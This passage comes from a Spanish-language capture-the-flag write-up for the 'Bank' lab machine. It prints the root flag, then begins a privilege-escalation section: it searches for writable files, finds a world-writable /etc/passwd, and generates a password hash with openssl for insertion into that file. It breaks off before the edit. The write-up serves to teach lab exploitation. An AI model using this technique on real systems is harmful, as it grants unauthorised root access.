 ```ruby
# cat root.txt  
dd86ed1503f7f835b5b1caae602455bb
# 
```

<h3 style="text-align:center" id="escritura">ESCALADA DE PRIVILEGIOS ARCHIVOS CON CAPACIDAD DE ESCRITURA</h3><hr>

- Buscar archivos que tengan permisos de escritura:

```ruby
find / -writable -type f 2>/dev/null | grep -vE "python3|proc"
```
![](../assets/images/Bank/passwd2.png)

- El etc/passwd 

```ruby
www-data@bank:/home/chris$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1252 May 28  2017 /etc/passwd

```
- Ahora generamos una contraseña que pondremos al de passwd de la siguiente manera: `openssl passwd` y puedes poner cualquiera, este caso coloque hola, como respuesta nos da una encriptada que pondemos en el passwd.

```ruby
ww-data@bank:/home/chris$ openssl passwd
Password: 
Verifying - Password: 
Clwm7373K1t5c
www-data@bank:/home/chris$ 

```